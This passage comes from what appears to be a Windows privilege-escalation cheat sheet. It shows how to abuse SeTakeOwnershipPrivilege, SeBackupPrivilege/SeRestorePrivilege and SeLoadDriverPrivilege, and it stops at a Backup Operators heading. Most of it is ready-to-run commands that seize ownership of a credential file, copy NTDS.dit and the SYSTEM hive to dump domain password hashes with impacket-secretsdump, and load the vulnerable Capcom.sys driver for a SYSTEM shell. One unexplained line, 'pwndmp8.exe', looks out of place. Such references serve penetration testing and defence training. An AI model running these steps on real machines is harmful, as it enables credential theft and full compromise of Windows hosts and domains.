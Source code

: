 #### **SeTakeOwnershipPrivilege**

Allows you to take ownership of files or folders, even if you don't have explicit permissions.

```shell
# Check ownership of a file
cmd /c dir /q 'C:\Path\To\Sensitive\cred.txt'

# Take ownership of the file
takeown /f 'C:\Path\To\Sensitive\cred.txt'

# Grant yourself Full Control permissions
icacls 'C:\Path\To\Sensitive\cred.txt' /grant <your_username>:F

# Access the file
cat 'C:\Path\To\Sensitive\cred.txt'
```

#### **SeBackupPrivilege** / **SeRestorePrivilege**

Allows you to read/write any file on the system, bypassing standard ACLs. This is often used to grab the `NTDS.dit` file from a Domain Controller.

```shell
# Copy NTDS.dit and SYSTEM hive using robocopy with backup mode
robocopy /B C:\Windows\NTDS C:\temp ntds.dit
robocopy /B C:\Windows\System32\config C:\temp SYSTEM

# Dump hashes locally from the saved files
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
pwndmp8.exe
```

#### **SeLoadDriverPrivilege** (Print Operators)

Allows loading of kernel drivers. Abused by loading a vulnerable, signed driver to get arbitrary code execution in the kernel.

```shell
# Check privileges
whoami /priv

# Load a vulnerable driver (e.g., Capcom.sys)
EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys

# Exploit the driver to get a SYSTEM shell
.\ExploitCapcom.exe
```

### Group Memberships

Certain local or domain groups grant powerful permissions.

#### **Backup Operators**
